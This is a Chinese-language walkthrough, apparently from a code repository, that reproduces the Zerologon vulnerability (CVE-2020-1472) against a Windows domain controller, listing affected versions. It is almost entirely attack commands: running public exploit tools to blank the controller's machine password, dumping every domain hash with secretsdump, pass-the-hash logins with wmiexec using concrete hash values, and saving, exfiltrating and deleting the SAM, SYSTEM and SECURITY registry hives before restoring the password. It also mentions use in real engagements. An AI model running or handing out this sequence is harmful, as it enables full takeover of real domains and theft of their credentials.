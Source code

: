# NetLogon域内提权漏洞CVE-2020-1472

## 简介

CVE-2020-1472是一个windows域控中严重的远程权限提升漏洞，攻击者通过NetLogon，建立与域控间易受攻击的安全通道时，可利用此漏洞获取域管访问权限。

## 影响版本

Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016 (Server Core installation)
Windows Server 2019
Windows Server 2019 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
Windows Server, version 2004 (Server Core installation)

## 复现过程

1、查看域控主机名

```java
net group "domain controllers" /domain
```

2、判断漏洞是否存在

https://github.com/SecuraBV/CVE-2020-1472

```java
proxychains python3 zerologon_tester.py OWA2010CN-GOD 192.168.3.21
proxychains python3 zerologon_tester.py 域控主机名 域控地址
```

出现success代表存在漏洞

![Untitled](NetLogon%E5%9F%9F%E5%86%85%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9ECVE-2020-1472%20d255a5a45c7a4380b7d5d4e3d787061d/Untitled.png)

3、使用工具清空DC凭证

[https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)

```java
python3  set_empty_pw  目标计算机名  目标IP

proxychains python3  set_empty_pw OWA2010CN-GOD 192.168.3.21
```

[https://github.com/mstxq17/cve-2020-1472](https://github.com/mstxq17/cve-2020-1472)

```java
proxychains python cve-2020-1472-exploit.py OWA2010CN-GOD 192.168.3.21
```

两个工具都可以

清空票据可能会导致脱域，实战中要小心使用！！！

4、获取域内HASH

使用impacket中的secretsdump.py脚本

```java
python3 secretsdump.py  域/目标计算机名/$@目标IP  -just-dc  -no-pass

proxychains python secretsdump.py OWA2010CN-GOD\$@192.168.3.21 -just-dc -no-pass
```

5、横向HASH传递

```java
proxychains python wmiexec.py -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21
```

如果没有利用成功，可能是已经脱域了，去掉域名

```java
proxychains python3  wmiexec.py  administrator@192.168.3.21  -hashes aad3b435b51404eeaad3b435b51404ee:afffeba176210fad4628f0524bfe1942
```

6、恢复密码，备份注册表，并保存到本地，保存后删除备份的注册表

```java
reg save HKLM/SYSTEM system.save
reg save HKLM/SAM sam.save
reg save HKLM/SECURITY security.save
lget system.save
lget sam.save
lget security.save
del /f system.save
del /f sam.save
del /f security.save
```

保存的文件在wmiexec.py脚本同一目录下

使用secretsdump.py脚本解析保存到本地的注册表备份

```java
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

`$MACHINE.ACC:plain_password_hex`:后的值为下一步恢复密码需要的值

7、使用zerologon中的reinstall_original_pw.py脚本恢复密码

```java
python3  reinstall_original_pw.py  目标计算机名  目标IP  之前获取的hash
例如：
proxychains  python3 reinstall_original_pw.py OWA2010CN-GOD 192.168.3.21 6d3d5fb71d3ea7b5a1f50b59768fe0da9c95f5fdf759d9db80559abac743a77b979677ad7b618ec9373bb49d0acc3708e59540b2e43fc24661e4aca71511f0789018b434c38b9e6c763865c1e308e2e9b63b1ca126c33e197f59ae14c3f0115fcd66fd4a88a5340f0546758f27de9261525a6d008cfe53271bd1d26ffe1af6c6e2ac59a32bb1cdf566ae80e57feabd4504e8a81f35668cce840ec26b3c576ae8177f47aa4477387b8aa438f8bca3f27a0d7044caae90aa9177beac0e8b5f0e9a63d0715b5be4cba5d5ffd5dacef3a32e05c7cbc1dc48f5292eafe27bbdc81376e7a2c713e009b1dd6f7e5ec7ec417d12
```

8、重复第3步，验证下是否恢复成功

[CVE2020-1472 域内提权漏洞复现](https://www.exterminate-dog.com/2022/01/17/2022002/)
